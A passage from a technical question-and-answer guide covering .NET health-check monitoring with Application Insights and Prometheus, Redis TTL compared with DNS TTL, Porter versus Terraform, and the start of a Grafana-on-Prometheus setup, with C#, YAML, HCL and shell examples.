builder.Services.AddSingleton<ITelemetryInitializer, HealthCheckTelemetryInitializer>();

// Configure health checks
builder.Services.AddHealthChecks()
    .AddCheck<DatabaseHealthCheck>("database", tags: new[] { "critical", "external" })
    .AddCheck<RedisHealthCheck>("redis", tags: new[] { "important", "external" })
    .AddCheck<ExternalApiHealthCheck>("external-api", tags: new[] { "optional", "external" });

// Add health check publishers
builder.Services.Configure<HealthCheckPublisherOptions>(options =>
{
    options.Delay = TimeSpan.FromSeconds(5);
    options.Period = TimeSpan.FromSeconds(30);
    options.Predicate = _ => true; // Publish all checks
});

// Register publishers
builder.Services.AddSingleton<IHealthCheckPublisher, ApplicationInsightsHealthCheckPublisher>();
builder.Services.AddSingleton<IHealthCheckPublisher, HealthCheckMetricsPublisher>();

// Add Prometheus metrics
builder.Services.AddSingleton<HealthCheckPrometheusExporter>();
builder.Services.AddHostedService(provider => provider.GetRequiredService<HealthCheckPrometheusExporter>());

var app = builder.Build();

// Prometheus endpoint
app.MapMetrics("/metrics").RequireAuthorization("MetricsPolicy");

// Health check endpoints with custom responses
app.MapHealthChecks("/health/live", new HealthCheckOptions
{
    Predicate = check => check.Tags.Contains("liveness"),
    ResponseWriter = async (context, report) =>
    {
        // Track in Application Insights
        var telemetryClient = context.RequestServices.GetRequiredService<TelemetryClient>();
        telemetryClient.TrackEvent("LivenessCheck", new Dictionary<string, string>
        {
            ["Status"] = report.Status.ToString(),
            ["Duration"] = report.TotalDuration.TotalMilliseconds.ToString()
        });

        // Standard response
        await WriteHealthCheckResponse(context, report);
    }
});
```

### Advanced Monitoring Patterns

```csharp
// 1. Correlated Health Check Monitoring
public class CorrelatedHealthCheckMonitor
{
    private readonly TelemetryClient _telemetryClient;
    private readonly ILogger<CorrelatedHealthCheckMonitor> _logger;

    public async Task<HealthCheckResult> CheckWithCorrelationAsync(
        string checkName,
        Func<Task<HealthCheckResult>> checkFunc)
    {
        // Create correlation context
        using var activity = Activity.StartActivity($"HealthCheck.{checkName}");
        var operationId = activity?.TraceId.ToString() ?? Guid.NewGuid().ToString();

        // Start Application Insights operation
        using var operation = _telemetryClient.StartOperation<DependencyTelemetry>(
            $"HealthCheck:{checkName}");
        
        operation.Telemetry.Type = "HealthCheck";
        operation.Telemetry.Target = checkName;

        try
        {
            var stopwatch = Stopwatch.StartNew();
            var result = await checkFunc();
            stopwatch.Stop();

            // Track in both systems
            operation.Telemetry.Success = result.Status == HealthStatus.Healthy;
            operation.Telemetry.Duration = stopwatch.Elapsed;
            operation.Telemetry.ResultCode = result.Status.ToString();

            // Prometheus metrics with correlation
            Metrics.CreateHistogram(
                "health_check_correlated_duration_seconds",
                "Correlated health check duration",
                new HistogramConfiguration
                {
                    LabelNames = new[] { "check", "status", "correlation_id" }
                })
                .WithLabels(checkName, result.Status.ToString(), operationId)
                .Observe(stopwatch.Elapsed.TotalSeconds);

            return result;
        }
        catch (Exception ex)
        {
            operation.Telemetry.Success = false;
            operation.Telemetry.Properties["Exception"] = ex.GetType().Name;
            throw;
        }
    }
}

// 2. SLO-based Health Monitoring
public class SloHealthMonitor : IHealthCheck
{
    private readonly IMetricsRepository _metricsRepo;
    private readonly TelemetryClient _telemetryClient;
    
    // SLO thresholds
    private const double AvailabilitySlo = 99.9; // 99.9% availability
    private const double LatencySlo = 500; // 500ms p95 latency

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        var now = DateTime.UtcNow;
        var window = TimeSpan.FromMinutes(5);

        // Query recent metrics
        var metrics = await _metricsRepo.GetMetricsAsync(now - window, now);
        
        // Calculate SLI (Service Level Indicators)
        var availability = CalculateAvailability(metrics);
        var p95Latency = CalculateP95Latency(metrics);

        // Track SLIs in both systems
        _telemetryClient.TrackMetric("SLI.Availability", availability,
            new Dictionary<string, string> { ["Window"] = "5m" });
        _telemetryClient.TrackMetric("SLI.Latency.P95", p95Latency,
            new Dictionary<string, string> { ["Window"] = "5m" });

        Metrics.CreateGauge("sli_availability_ratio", "Service availability ratio")
            .Set(availability / 100);
        Metrics.CreateGauge("sli_latency_p95_ms", "95th percentile latency in ms")
            .Set(p95Latency);

        // Check against SLOs
        var data = new Dictionary<string, object>
        {
            ["Availability"] = $"{availability:F2}%",
            ["AvailabilitySLO"] = $"{AvailabilitySlo}%",
            ["P95Latency"] = $"{p95Latency:F0}ms",
            ["LatencySLO"] = $"{LatencySlo}ms",
            ["ErrorBudgetRemaining"] = $"{CalculateErrorBudget(availability):F2}%"
        };

        if (availability < AvailabilitySlo || p95Latency > LatencySlo)
        {
            return HealthCheckResult.Degraded(
                "SLO violation detected",
                data: data);
        }

        return HealthCheckResult.Healthy(
            "All SLOs are being met",
            data: data);
    }

    private double CalculateErrorBudget(double currentAvailability)
    {
        var allowedDowntime = 100 - AvailabilitySlo;
        var actualDowntime = 100 - currentAvailability;
        var budgetUsed = (actualDowntime / allowedDowntime) * 100;
        return Math.Max(0, 100 - budgetUsed);
    }
}

// 3. Distributed Tracing Integration
public class TracedHealthCheck : IHealthCheck
{
    private readonly IHealthCheck _innerCheck;
    private readonly ILogger<TracedHealthCheck> _logger;

    public TracedHealthCheck(IHealthCheck innerCheck, ILogger<TracedHealthCheck> logger)
    {
        _innerCheck = innerCheck;
        _logger = logger;
    }

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        // Create or continue trace
        using var activity = Activity.StartActivity(
            $"HealthCheck.{context.Registration.Name}",
            ActivityKind.Internal);

        activity?.SetTag("health.check.name", context.Registration.Name);
        activity?.SetTag("health.check.tags", string.Join(",", context.Registration.Tags));

        try
        {
            var result = await _innerCheck.CheckHealthAsync(context, cancellationToken);

            // Add result to trace
            activity?.SetTag("health.check.status", result.Status.ToString());
            activity?.SetTag("health.check.duration_ms", result.Duration.TotalMilliseconds);

            if (result.Exception != null)
            {
                activity?.RecordException(result.Exception);
            }

            // Export to monitoring systems
            ExportToMonitoringSystems(activity, result);

            return result;
        }
        catch (Exception ex)
        {
            activity?.SetStatus(ActivityStatusCode.Error, ex.Message);
            activity?.RecordException(ex);
            throw;
        }
    }

    private void ExportToMonitoringSystems(Activity activity, HealthCheckResult result)
    {
        if (activity == null) return;

        // Export to Application Insights
        var telemetry = new EventTelemetry("HealthCheckTrace")
        {
            Properties =
            {
                ["TraceId"] = activity.TraceId.ToString(),
                ["SpanId"] = activity.SpanId.ToString(),
                ["CheckName"] = activity.DisplayName,
                ["Status"] = result.Status.ToString(),
                ["Duration"] = result.Duration.TotalMilliseconds.ToString()
            }
        };

        // Export to Prometheus
        Metrics.CreateCounter(
            "health_check_traces_total",
            "Total health check traces",
            new CounterConfiguration
            {
                LabelNames = new[] { "check", "status", "traced" }
            })
            .WithLabels(
                activity.DisplayName,
                result.Status.ToString(),
                "true")
            .Inc();
    }
}
```

### Alerting Configuration

```yaml
# Prometheus alerting rules
groups:
  - name: health_checks
    interval: 30s
    rules:
      - alert: HealthCheckFailing
        expr: health_check_status > 0
        for: 5m
        labels:
          severity: warning
        annotations:
          summary: "Health check {{ $labels.name }} is failing"
          description: "Health check {{ $labels.name }} has status {{ $value }}"
      
      - alert: CriticalHealthCheckDown
        expr: health_check_status{tags=~".*critical.*"} == 2
        for: 1m
        labels:
          severity: critical
        annotations:
          summary: "Critical health check {{ $labels.name }} is down"
          
      - alert: HighHealthCheckLatency
        expr: histogram_quantile(0.95, health_check_duration_seconds) > 5
        for: 10m
        labels:
          severity: warning
        annotations:
          summary: "Health check latency is high"
```

```json
// Application Insights alert configuration
{
  "name": "Health Check Failures",
  "description": "Alert when health checks fail",
  "severity": 2,
  "enabled": true,
  "scopes": ["/subscriptions/{subscription-id}/resourceGroups/{resource-group}/providers/Microsoft.Insights/components/{app-insights-name}"],
  "evaluationFrequency": "PT5M",
  "windowSize": "PT5M",
  "criteria": {
    "allOf": [
      {
        "query": "availabilityResults | where name startswith 'HealthCheck:' | where success == false",
        "timeAggregation": "Count",
        "operator": "GreaterThan",
        "threshold": 3,
        "failingPeriods": {
          "numberOfEvaluationPeriods": 2,
          "minFailingPeriodsToAlert": 2
        }
      }
    ]
  },
  "actions": {
    "actionGroups": ["/subscriptions/{subscription-id}/resourceGroups/{resource-group}/providers/Microsoft.Insights/actionGroups/{action-group}"]
  }
}
```

### Dashboard Integration

```csharp
// Grafana dashboard query examples
public class HealthCheckDashboardQueries
{
    // Prometheus queries for Grafana
    public static class PrometheusQueries
    {
        public const string OverallHealth = @"
            health_check_status{name='overall'}";
        
        public const string HealthByCheck = @"
            health_check_status{name!='overall'}";
        
        public const string AvailabilityRate = @"
            1 - (avg_over_time(health_check_status{name!='overall'}[5m]) / 2)";
        
        public const string CheckLatencyP95 = @"
            histogram_quantile(0.95, 
                sum(rate(health_check_duration_seconds_bucket[5m])) by (name, le)
            )";
        
        public const string FailureRate = @"
            sum(rate(health_check_executions_total{status!='Healthy'}[5m])) by (name)";
    }

    // KQL queries for Application Insights
    public static class ApplicationInsightsQueries
    {
        public const string HealthCheckTrend = @"
            availabilityResults
            | where name startswith 'HealthCheck:'
            | summarize 
                SuccessRate = avg(toint(success)) * 100,
                AvgDuration = avg(duration)
                by bin(timestamp, 5m), name
            | render timechart";
        
        public const string DependencyHealth = @"
            dependencies
            | where type == 'HealthCheck'
            | summarize 
                SuccessRate = avg(toint(success)) * 100,
                P95Duration = percentile(duration, 95)
                by bin(timestamp, 5m), name
            | render timechart";
        
        public const string SLOCompliance = @"
            customMetrics
            | where name startswith 'SLI.'
            | summarize Value = avg(value) by bin(timestamp, 5m), name
            | evaluate pivot(name, avg(Value))
            | render timechart";
    }
}
```

### Best Practices for Integration

```yaml
Integration Best Practices:
  1. Metrics Design:
     - Use consistent naming conventions
     - Include relevant labels/dimensions
     - Avoid high cardinality
     - Use appropriate metric types
  
  2. Performance Optimization:
     - Batch telemetry submissions
     - Use sampling for high-frequency checks
     - Implement local aggregation
     - Minimize serialization overhead
  
  3. Data Retention:
     - Short retention for detailed metrics
     - Long retention for aggregated data
     - Archive critical health events
     - Consider cost implications

  4. Alerting Strategy:
     - Alert on symptoms, not causes
     - Use multi-window alerting
     - Implement alert suppression
     - Include runbook links

Monitoring Architecture:
  1. Collection Layer:
     - Health check endpoints
     - Metrics exposition
     - Telemetry batching
     - Local buffering
  
  2. Processing Layer:
     - Aggregation rules
     - Anomaly detection
     - Correlation analysis
     - SLO calculation
  
  3. Storage Layer:
     - Time-series database
     - Log analytics workspace
     - Long-term archive
     - Query optimization
  
  4. Visualization Layer:
     - Real-time dashboards
     - Historical analysis
     - SLO/SLI tracking
     - Dependency mapping
```

## Q37: What is TTL in Redis? Similar to TTL in DNS?

### Answer:

TTL (Time To Live) in Redis is conceptually similar to DNS TTL but serves a different purpose. Both involve automatic expiration of data after a specified time period.

### Redis TTL

Redis TTL is a mechanism for automatically expiring keys after a specified duration, helping manage memory and ensure data freshness.

#### Setting TTL in Redis

```csharp
// Using StackExchange.Redis
public class RedisService
{
    private readonly IConnectionMultiplexer _redis;
    
    public async Task SetWithExpiry(string key, string value, TimeSpan expiry)
    {
        var db = _redis.GetDatabase();
        
        // Set key with expiration
        await db.StringSetAsync(key, value, expiry);
        
        // Or set TTL separately
        await db.StringSetAsync(key, value);
        await db.KeyExpireAsync(key, expiry);
    }
    
    public async Task<TimeSpan?> GetTimeToLive(string key)
    {
        var db = _redis.GetDatabase();
        return await db.KeyTimeToLiveAsync(key);
    }
}
```

#### Common TTL Patterns

```csharp
public class CachePatterns
{
    private readonly IDatabase _db;
    
    // Session management - 30 minute TTL
    public async Task StoreSession(string sessionId, SessionData data)
    {
        var key = $"session:{sessionId}";
        var json = JsonSerializer.Serialize(data);
        await _db.StringSetAsync(key, json, TimeSpan.FromMinutes(30));
    }
    
    // Rate limiting - 1 minute sliding window
    public async Task<bool> CheckRateLimit(string userId, int limit)
    {
        var key = $"ratelimit:{userId}:{DateTime.UtcNow:yyyyMMddHHmm}";
        var count = await _db.StringIncrementAsync(key);
        
        if (count == 1)
        {
            await _db.KeyExpireAsync(key, TimeSpan.FromMinutes(1));
        }
        
        return count <= limit;
    }
    
    // Temporary locks - 5 second TTL
    public async Task<bool> AcquireLock(string resource)
    {
        var key = $"lock:{resource}";
        var lockId = Guid.NewGuid().ToString();
        
        return await _db.StringSetAsync(key, lockId, 
            TimeSpan.FromSeconds(5), When.NotExists);
    }
}
```

### DNS TTL vs Redis TTL Comparison

```yaml
Similarities:
  - Both define lifetime of data
  - Both use seconds as unit
  - Both enable automatic cleanup
  - Both improve performance

Differences:
  Redis TTL:
    - Controls cache expiration
    - Manages memory usage
    - Key-level granularity
    - Can be modified after setting
    - Precision to milliseconds
    
  DNS TTL:
    - Controls DNS cache duration
    - Reduces DNS query load
    - Record-level granularity
    - Fixed until record update
    - Typically in seconds/hours
```

### Redis TTL Commands

```bash
# Set TTL
EXPIRE key 300              # 300 seconds
PEXPIRE key 300000         # 300000 milliseconds
EXPIREAT key 1735689600    # Unix timestamp
PEXPIREAT key 1735689600000 # Unix timestamp in milliseconds

# Get remaining TTL
TTL key    # Returns seconds (-1 if no TTL, -2 if key doesn't exist)
PTTL key   # Returns milliseconds

# Remove TTL
PERSIST key  # Make key persistent

# Set value with TTL
SETEX key 300 "value"      # SET with EXpire
SET key "value" EX 300     # Alternative syntax
SET key "value" PX 300000  # Millisecond precision
```

### TTL Implementation Details

```csharp
public class RedisCache : IDistributedCache
{
    private readonly IConnectionMultiplexer _redis;
    private readonly ILogger<RedisCache> _logger;
    
    public async Task<T?> GetAsync<T>(string key, Func<Task<T>> factory, 
        TimeSpan? expiry = null) where T : class
    {
        var db = _redis.GetDatabase();
        
        // Try to get from cache
        var cached = await db.StringGetAsync(key);
        if (cached.HasValue)
        {
            try
            {
                return JsonSerializer.Deserialize<T>(cached!);
            }
            catch (Exception ex)
            {
                _logger.LogWarning(ex, "Failed to deserialize cached value");
                await db.KeyDeleteAsync(key);
            }
        }
        
        // Generate new value
        var value = await factory();
        if (value != null)
        {
            var json = JsonSerializer.Serialize(value);
            var ttl = expiry ?? TimeSpan.FromMinutes(5);
            
            await db.StringSetAsync(key, json, ttl);
        }
        
        return value;
    }
    
    public async Task RefreshAsync(string key)
    {
        var db = _redis.GetDatabase();
        var ttl = await db.KeyTimeToLiveAsync(key);
        
        if (ttl.HasValue && ttl.Value.TotalSeconds > 0)
        {
            // Reset TTL to original value
            await db.KeyExpireAsync(key, ttl.Value);
        }
    }
}
```

### TTL Strategies

#### 1. Fixed TTL Strategy
```csharp
public class FixedTTLStrategy
{
    private readonly Dictionary<string, TimeSpan> _ttlMap = new()
    {
        ["user:profile"] = TimeSpan.FromHours(1),
        ["product:details"] = TimeSpan.FromMinutes(30),
        ["search:results"] = TimeSpan.FromMinutes(5),
        ["api:response"] = TimeSpan.FromSeconds(60)
    };
    
    public TimeSpan GetTTL(string keyPattern)
    {
        return _ttlMap.TryGetValue(keyPattern, out var ttl) 
            ? ttl 
            : TimeSpan.FromMinutes(10); // Default
    }
}
```

#### 2. Sliding Window TTL
```csharp
public class SlidingWindowCache
{
    private readonly IDatabase _db;
    
    public async Task<T?> GetWithSlidingExpiration<T>(string key, 
        TimeSpan window) where T : class
    {
        var value = await _db.StringGetAsync(key);
        
        if (value.HasValue)
        {
            // Extend TTL on access
            await _db.KeyExpireAsync(key, window);
            return JsonSerializer.Deserialize<T>(value!);
        }
        
        return null;
    }
}
```

#### 3. Adaptive TTL
```csharp
public class AdaptiveTTLStrategy
{
    private readonly IDatabase _db;
    
    public async Task SetWithAdaptiveTTL(string key, string value)
    {
        // Analyze access patterns
        var accessCount = await _db.StringIncrementAsync($"{key}:access");
        var ttl = CalculateTTL(accessCount);
        
        await _db.StringSetAsync(key, value, ttl);
    }
    
    private TimeSpan CalculateTTL(long accessCount)
    {
        // Higher access = longer TTL
        return accessCount switch
        {
            < 10 => TimeSpan.FromMinutes(5),
            < 50 => TimeSpan.FromMinutes(15),
            < 100 => TimeSpan.FromHours(1),
            _ => TimeSpan.FromHours(6)
        };
    }
}
```

### TTL Best Practices

```yaml
Best Practices:
  1. Choose Appropriate TTLs:
     - Session data: 15-30 minutes
     - User profiles: 1-24 hours
     - Static content: 1-7 days
     - Rate limits: 1-60 seconds
     - Locks: 5-30 seconds
  
  2. Memory Management:
     - Monitor memory usage
     - Set maxmemory-policy
     - Use shorter TTLs under pressure
     - Implement TTL randomization
  
  3. TTL Patterns:
     - Use SETEX for atomic operations
     - Implement TTL refresh on access
     - Add jitter to prevent thundering herd
     - Monitor TTL effectiveness
  
  4. Eviction Policies:
     volatile-lru: Evict keys with TTL using LRU
     volatile-ttl: Evict keys with shortest TTL
     volatile-random: Random eviction with TTL
     allkeys-lru: LRU on all keys
```

### Monitoring TTL Effectiveness

```csharp
public class TTLMonitoring
{
    private readonly IConnectionMultiplexer _redis;
    private readonly IMetrics _metrics;
    
    public async Task MonitorTTLs()
    {
        var server = _redis.GetServer(_redis.GetEndPoints().First());
        var db = _redis.GetDatabase();
        
        await foreach (var key in server.KeysAsync(pattern: "*"))
        {
            var ttl = await db.KeyTimeToLiveAsync(key);
            
            if (ttl.HasValue)
            {
                _metrics.Histogram("redis.ttl.remaining", ttl.Value.TotalSeconds,
                    new[] { "key_type", GetKeyType(key) });
            }
        }
    }
    
    private string GetKeyType(string key)
    {
        var parts = key.Split(':');
        return parts.Length > 0 ? parts[0] : "unknown";
    }
}
```

### Advanced TTL Use Cases

```csharp
// 1. Distributed session with refresh
public class DistributedSession
{
    public async Task<bool> ExtendSession(string sessionId)
    {
        var key = $"session:{sessionId}";
        var ttl = await _db.KeyTimeToLiveAsync(key);
        
        if (ttl?.TotalMinutes > 5)
        {
            // Extend by 30 minutes from now
            await _db.KeyExpireAsync(key, TimeSpan.FromMinutes(30));
            return true;
        }
        
        return false; // Session about to expire
    }
}

// 2. Cache warming with TTL
public class CacheWarmer
{
    public async Task WarmCache()
    {
        var tasks = new List<Task>();
        
        foreach (var item in await GetPopularItems())
        {
            tasks.Add(Task.Run(async () =>
            {
                var data = await FetchItemData(item.Id);
                var ttl = TimeSpan.FromHours(1);
                
                // Add random jitter (±10%)
                var jitter = Random.Shared.Next(-360, 360);
                ttl = ttl.Add(TimeSpan.FromSeconds(jitter));
                
                await _db.StringSetAsync($"item:{item.Id}", 
                    JsonSerializer.Serialize(data), ttl);
            }));
        }
        
        await Task.WhenAll(tasks);
    }
}

// 3. TTL-based cleanup
public class TTLCleanup
{
    public async Task CleanupExpiredData()
    {
        // Redis handles this automatically, but we can track it
        _redis.ConnectionFailed += (sender, args) =>
        {
            _logger.LogWarning("Redis connection failed: {FailureType}", 
                args.FailureType);
        };
        
        _redis.ConnectionRestored += async (sender, args) =>
        {
            _logger.LogInformation("Redis connection restored");
            // Re-populate critical data with TTL
            await RepopulateCriticalCache();
        };
    }
}
```

The key difference is that Redis TTL is about data lifecycle management in a cache/database, while DNS TTL is about distributed caching of network name resolutions. Both are critical for system performance and reliability.

## Q38: Should we use Porter vs Terraform? Which is better when? If we use Terraform across the board what do we miss out on?

### Answer:

Porter and Terraform serve different purposes in the infrastructure and application deployment ecosystem. Porter is a Cloud Native Application Bundle (CNAB) tool focusing on packaging and distributing applications, while Terraform is an Infrastructure as Code (IaC) tool for provisioning and managing cloud resources.

### Understanding Porter

Porter is designed to create portable application bundles that include everything needed to install an application across different environments.

#### Porter Bundle Example

```yaml
# porter.yaml
name: collaborative-puzzle
version: 0.1.0
description: "Collaborative Puzzle Platform Bundle"

credentials:
  - name: azure-subscription-id
    env: AZURE_SUBSCRIPTION_ID
  - name: kubeconfig
    path: /home/nonroot/.kube/config

parameters:
  - name: environment
    type: string
    default: dev
    enum: ["dev", "staging", "production"]
  - name: redis-size
    type: string
    default: "C1"
  - name: database-sku
    type: string
    default: "S0"

mixins:
  - exec
  - kubernetes
  - helm3
  - terraform
  - az

install:
  - terraform:
      description: "Provision Azure Infrastructure"
      autoApprove: true
      workingDir: ./terraform
      vars:
        environment: ${ bundle.parameters.environment }
        redis_sku: ${ bundle.parameters.redis-size }
        
  - helm3:
      description: "Install Application"
      name: puzzle-app
      chart: ./charts/puzzle-platform
      namespace: ${ bundle.parameters.environment }
      values:
        - ./values/${ bundle.parameters.environment }.yaml
      wait: true

upgrade:
  - terraform:
      description: "Update Infrastructure"
      autoApprove: false
      workingDir: ./terraform
      
  - helm3:
      description: "Upgrade Application"
      name: puzzle-app
      chart: ./charts/puzzle-platform
      namespace: ${ bundle.parameters.environment }

uninstall:
  - helm3:
      description: "Remove Application"
      purge: true
      releases:
        - puzzle-app
        
  - terraform:
      description: "Destroy Infrastructure"
      workingDir: ./terraform
```

### Understanding Terraform

Terraform focuses on declarative infrastructure provisioning across multiple cloud providers.

#### Terraform Configuration Example

```hcl
# main.tf
terraform {
  required_version = ">= 1.5.0"
  
  required_providers {
    azurerm = {
      source  = "hashicorp/azurerm"
      version = "~> 3.0"
    }
    kubernetes = {
      source  = "hashicorp/kubernetes"
      version = "~> 2.23"
    }
  }
  
  backend "azurerm" {
    resource_group_name  = "terraform-state-rg"
    storage_account_name = "tfstatepuzzle"
    container_name       = "tfstate"
    key                  = "puzzle.tfstate"
  }
}

# Resource Group
resource "azurerm_resource_group" "main" {
  name     = "puzzle-${var.environment}-rg"
  location = var.location
  
  tags = local.common_tags
}

# AKS Cluster
resource "azurerm_kubernetes_cluster" "main" {
  name                = "puzzle-${var.environment}-aks"
  location            = azurerm_resource_group.main.location
  resource_group_name = azurerm_resource_group.main.name
  dns_prefix          = "puzzle-${var.environment}"
  
  default_node_pool {
    name       = "default"
    node_count = var.node_count
    vm_size    = var.node_size
  }
  
  identity {
    type = "SystemAssigned"
  }
}

# Redis Cache
resource "azurerm_redis_cache" "main" {
  name                = "puzzle-${var.environment}-redis"
  location            = azurerm_resource_group.main.location
  resource_group_name = azurerm_resource_group.main.name
  capacity            = var.redis_capacity
  family              = var.redis_family
  sku_name            = var.redis_sku
  
  redis_configuration {
    enable_authentication = true
    maxmemory_policy     = "allkeys-lru"
  }
}
```

### Porter vs Terraform Comparison

```yaml
Porter Strengths:
  - Application-centric bundles
  - Multi-tool orchestration (Terraform + Helm + Scripts)
  - Portable across environments
  - Built-in credential management
  - Versioned application packages
  - Runtime parameter injection
  - Custom action support

Terraform Strengths:
  - Infrastructure-centric
  - Massive provider ecosystem
  - State management
  - Plan/Apply workflow
  - Resource dependencies
  - Import existing resources
  - Mature tooling ecosystem

When to Use Porter:
  - Distributing applications to customers
  - Complex multi-tool deployments
  - Need portable bundles
  - Mixed infrastructure + app deployment
  - Air-gapped environments
  - Marketplace scenarios

When to Use Terraform:
  - Pure infrastructure provisioning
  - Multi-cloud deployments
  - GitOps workflows
  - Team collaboration on infrastructure
  - Existing Terraform modules
  - Infrastructure lifecycle management
```

### What You Miss Using Only Terraform

#### 1. Application Bundle Portability
```yaml
# Porter provides
bundles:
  - Self-contained packages
  - Offline installation support
  - Signed bundles for security
  - Registry distribution
  - Version management

# Terraform alternative requires
terraform_only:
  - External package management
  - Custom distribution methods
  - Separate signing process
  - Manual version tracking
```

#### 2. Multi-Tool Orchestration
```bash
# Porter handles multiple tools seamlessly
install:
  - terraform:
      description: "Create infrastructure"
  - exec:
      description: "Run migrations"
      command: ./scripts/migrate.sh
  - helm3:
      description: "Deploy application"
  - az:
      description: "Configure DNS"

# Terraform requires external orchestration
# deploy.sh
terraform apply -auto-approve
./scripts/migrate.sh
helm install myapp ./chart
az network dns record-set a add-record ...
```

#### 3. Runtime Parameter Management
```yaml
# Porter parameter injection
parameters:
  - name: database_password
    type: string
    sensitive: true
    source:
      env: DB_PASSWORD

# Terraform requires wrapper scripts
#!/bin/bash
export TF_VAR_database_password=$DB_PASSWORD
terraform apply
```

### Hybrid Approach: Using Both

```yaml
# porter.yaml using Terraform mixin
name: enterprise-app
version: 1.0.0

mixins:
  - terraform
  - kubernetes
  - exec

install:
  # Step 1: Provision infrastructure with Terraform
  - terraform:
      description: "Provision cloud resources"
      workingDir: ./terraform
      outputs:
        - name: cluster_endpoint
        - name: redis_connection_string
        
  # Step 2: Configure Kubernetes
  - kubernetes:
      description: "Create namespaces"
      manifests:
        - ./k8s/namespaces.yaml
        
  # Step 3: Install application
  - exec:
      description: "Deploy application"
      command: kubectl
      arguments:
        - apply
        - -f
        - ./k8s/app.yaml
```

### Decision Matrix

```yaml
Choose Porter When:
  Requirements:
    - Distributing to external customers
    - Need offline/air-gapped deployment
    - Complex multi-step installations
    - Mixed tooling requirements
    - Application marketplace scenarios
    
  Examples:
    - ISV software distribution
    - Enterprise application packages
    - Multi-cloud portable apps
    - Demo/trial environments

Choose Terraform When:
  Requirements:
    - Infrastructure-only deployments
    - GitOps/IaC workflows
    - Team infrastructure management
    - Existing Terraform modules
    - State-based management needed
    
  Examples:
    - Cloud infrastructure provisioning
    - Network configuration
    - Security policies
    - Platform engineering

Choose Both When:
  Requirements:
    - Complex enterprise deployments
    - Need infrastructure + application
    - Require distribution capabilities
    - Want best of both tools
    
  Examples:
    - Enterprise software products
    - Multi-tenant SaaS platforms
    - Regulated environments
```

### Example: Terraform-Only Limitations

```hcl
# What Terraform handles well
resource "azurerm_postgresql_server" "main" {
  name                = "puzzle-db"
  location            = var.location
  resource_group_name = azurerm_resource_group.main.name
  
  sku_name = "GP_Gen5_2"
  version  = "11"
}

# What requires external tooling
# - Database migrations
# - Application deployment
# - Configuration management
# - Secret rotation
# - Health checks

# Typically solved with:
# - Separate CI/CD pipelines
# - Configuration management tools
# - Custom scripts
# - Additional operators
```

### Porter Bundle for Terraform Users

```dockerfile
# Dockerfile.tmpl
FROM debian:stretch-slim

ARG BUNDLE_DIR

# Install Terraform
RUN apt-get update && apt-get install -y \
    curl \
    gnupg \
    software-properties-common
    
RUN curl -fsSL https://apt.releases.hashicorp.com/gpg | apt-key add -
RUN apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
RUN apt-get update && apt-get install -y terraform

# Porter will inject bundle contents
COPY . $BUNDLE_DIR
RUN cd $BUNDLE_DIR && terraform init
```

### Migration Strategy

```yaml
From Terraform to Porter:
  1. Wrap existing Terraform:
     - Use terraform mixin
     - Keep existing .tf files
     - Add porter.yaml wrapper
     
  2. Add application deployment:
     - Include Helm charts
     - Add configuration steps
     - Bundle dependencies
     
  3. Create distribution:
     - Build CNAB bundle
     - Push to registry
     - Share with users

From Porter to Terraform:
  1. Extract infrastructure:
     - Convert to .tf files
     - Setup state backend
     - Create modules
     
  2. Handle applications:
     - Separate deployment pipeline
     - Use Helm/Kustomize
     - Create runbooks
     
  3. Orchestration:
     - CI/CD pipelines
     - GitOps workflows
     - External automation
```

### Best Practices

```yaml
Porter Best Practices:
  - Version bundles semantically
  - Sign bundles for security
  - Test bundles in CI/CD
  - Document parameters clearly
  - Use mixins appropriately
  - Handle errors gracefully

Terraform Best Practices:
  - Use remote state
  - Implement state locking
  - Modularize configurations
  - Pin provider versions
  - Use workspaces for environments
  - Implement proper tagging

Combined Approach:
  - Terraform for infrastructure
  - Porter for distribution
  - Clear separation of concerns
  - Consistent naming conventions
  - Unified credential management
  - Comprehensive documentation
```

The choice between Porter and Terraform isn't binary—they solve different problems. Terraform excels at infrastructure provisioning with state management, while Porter excels at application packaging and distribution. For pure infrastructure needs, Terraform is sufficient. For distributed applications requiring multiple tools and portability, Porter adds significant value. Many organizations benefit from using both tools together, leveraging their respective strengths.

## Q39: Explain how to setup Grafana on Prometheus data? Azure Monitor on Application Insights? Kibana for either or both or custom logs?

### Answer:

Setting up observability platforms requires understanding data sources, query languages, and visualization capabilities. Here's how to configure Grafana with Prometheus, Azure Monitor with Application Insights, and Kibana with various data sources.

### Grafana with Prometheus

#### 1. Deploy Prometheus and Grafana

```yaml
# docker-compose-monitoring.yml
version: '3.8'

services:
  prometheus:
    image: prom/prometheus:latest
    container_name: prometheus
    command:
      - '--config.file=/etc/prometheus/prometheus.yml'
      - '--storage.tsdb.path=/prometheus'
      - '--web.console.libraries=/etc/prometheus/console_libraries'
      - '--web.console.templates=/etc/prometheus/consoles'
      - '--web.enable-lifecycle'
    volumes:
      - ./prometheus:/etc/prometheus
      - prometheus_data:/prometheus
    ports:
      - "9090:9090"
    networks:
      - monitoring

  grafana:
    image: grafana/grafana:latest
    container_name: grafana
    environment:
      - GF_SECURITY_ADMIN_USER=admin
      - GF_SECURITY_ADMIN_PASSWORD=admin123
      - GF_USERS_ALLOW_SIGN_UP=false
    volumes:
      - grafana_data:/var/lib/grafana
      - ./grafana/provisioning:/etc/grafana/provisioning
    ports:
      - "3000:3000"
    networks:
      - monitoring
    depends_on:
      - prometheus

volumes:
  prometheus_data:
  grafana_data:

networks:
  monitoring:
```

#### 2. Configure Prometheus

```yaml
# prometheus/prometheus.yml
global:
  scrape_interval: 15s
  evaluation_interval: 15s

alerting:
  alertmanagers:
    - static_configs:
        - targets: ['alertmanager:9093']

rule_files:
  - "rules/*.yml"

scrape_configs:
  # Prometheus self-monitoring
  - job_name: 'prometheus'
    static_configs:
      - targets: ['localhost:9090']

  # Application metrics
  - job_name: 'puzzle-app'
    metrics_path: '/metrics'
    static_configs:
      - targets: ['puzzle-api:5000']
    relabel_configs:
      - source_labels: [__address__]
        target_label: instance
        regex: '([^:]+)(?::\d+)?'
        replacement: '${1}'

  # Node exporter for system metrics
  - job_name: 'node'
    static_configs:
      - targets: ['node-exporter:9100']

  # Redis exporter
  - job_name: 'redis'
    static_configs:
      - targets: ['redis-exporter:9121']
```

#### 3. Provision Grafana Data Sources

```yaml
# grafana/provisioning/datasources/prometheus.yml
apiVersion: 1

datasources:
  - name: Prometheus
    type: prometheus
    access: proxy
